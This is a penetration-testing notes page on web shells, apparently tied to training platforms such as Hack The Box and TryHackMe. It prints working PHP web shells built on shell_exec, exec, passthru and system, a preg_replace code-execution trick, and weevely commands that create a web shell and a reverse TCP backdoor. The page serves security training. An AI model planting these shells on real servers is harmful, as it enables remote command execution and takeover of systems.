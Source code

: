 # Web shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨

For JavaScript, you need to find a way for the website to execute your web shell. For PHP, visit the web shell URL.

⚠️ Password protect your webshells during assignments and/or randomize the parameter name <small>(e.g., don't use `cmd`)</small>.
</div><div>

On Kali, you can use the preinstalled web shells in `wordlists`, or install and use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).

```shell!
$ ls /usr/share/webshells
$ ls /usr/share/seclists/Web-Shells/
$ ls /usr/share/laudanum/ # edit and add the client (you?) IP
```

You may use the web shell to pop a [reverse shell](reverse_shell.md). Some payloads may not work smoothly according to the target configuration. Try:

```ps
bash -c "<reverse shell payload here>"
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### PHP — shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### PHP — weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) <small>(3.0k ⭐)</small>.

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

<br>

#### PHP — phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.

<br>

#### PHP — wwwolf

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

You can use the semi-interactive [wwwolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) <small>(0.5k ⭐, 2017 🪦)</small>.

<br>

#### PHP — p0wny

[![pivoting_tunneling_port_forwarding](../../../_badges/htb/pivoting_tunneling_port_forwarding.svg)](https://academy.hackthebox.com/course/preview/pivoting-tunneling-and-port-forwarding)

You can use the semi-interactive [p0wny web shell](https://github.com/flozz/p0wny-shell) <small>(2.0k ⭐)</small>.
</div><div>

#### PHP — preg_replace

[![php_preg_replace](../../../_badges/rootme/web_server/php_preg_replace.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

In PHP < 7.0.0, we could execute PHP code in `preg_replace` for each match found <small>(since PHP 5.5, there is a deprecation warning)</small>.

```php!
<?php
echo preg_replace('/a/e', 'system("whoami");', 'a');
```

<br>

#### PHP — exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### PHP — passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### PHP — system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```

#### PHP — LD_PRELOAD

Refer to [PHP mail() and putenv() bypass](/programming-languages/web/php/_general/index.md#php-mail-and-putenv-bypass).
</div></div>

<hr class="sep-both">

## C#

<div class="row row-cols-lg-2"><div>

#### C# — Antak

[![active_directory_enumeration_attacks](../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can find [antak.aspx here](https://github.com/samratashok/nishang/blob/master/Antak-WebShell/Readme.md) <small>(8.3k ⭐)</small>.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
* [webwrap](https://github.com/mxrch/webwrap)
* IBM Websphere Application Server ([article](https://wya.pl/2021/10/18/shells-and-soap-websphere-deserialization-to-rce/), system:manager war)
* Axis2 aar
</div><div>
</div></div>